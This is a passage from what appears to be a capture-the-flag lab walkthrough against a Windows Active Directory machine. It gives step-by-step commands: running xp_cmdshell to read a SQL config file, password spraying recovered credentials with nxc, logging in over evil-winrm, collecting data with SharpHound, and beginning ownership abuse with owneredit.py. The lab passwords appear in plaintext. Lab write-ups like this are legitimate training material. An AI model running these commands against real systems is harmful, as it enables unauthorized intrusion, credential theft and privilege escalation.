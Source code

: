 **Findings:** Configuration file `C:\SQL2019\ExpressAdv_ENV\sql-Configuration.INI`.  
Read the file:  
```sql
EXEC xp_cmdshell 'type C:\SQL2019\ExpressAdv_ENV\sql-Configuration.INI';
```

**Credentials Found:**  
- **Password:** WqSZAF6CysDQbGb3 (invalid for `sa`).

## 5. Password Spraying

Enumerate AD users:  
```bash
nxc smb 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su' --users
```

Save usernames to `adusers.txt`. Perform password spraying:  
```bash
nxc winrm 10.10.11.51 -u adusers.txt -p 'WqSZAF6CysDQbGb3'
```

**Valid Credentials Found:**  
- **Username:** ryan  
- **Password:** WqSZAF6CysDQbGb3

Login as `ryan` using WinRM:  
```bash
evil-winrm -i 10.10.11.51 -u 'ryan' -p 'WqSZAF6CysDQbGb3'
```

Capture user flag:  
```bash
cd Desktop
type user.txt
```

## 6. BloodHound Enumeration

Upload and run SharpHound:  
```bash
upload SharpHound.exe
.\SharpHound.exe --CollectionMethods All --ZipFileName output.zip
download output.zip
```

Analyze with BloodHound to identify privilege escalation paths.

## 7. Privilege Escalation via Certificate Abuse

Modify ownership of `ca_svc` using `owneredit.py`:  
```bash
sudo nano /etc/hosts
# Add: 10.10.11.51 sequel.htb
python3 owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
```
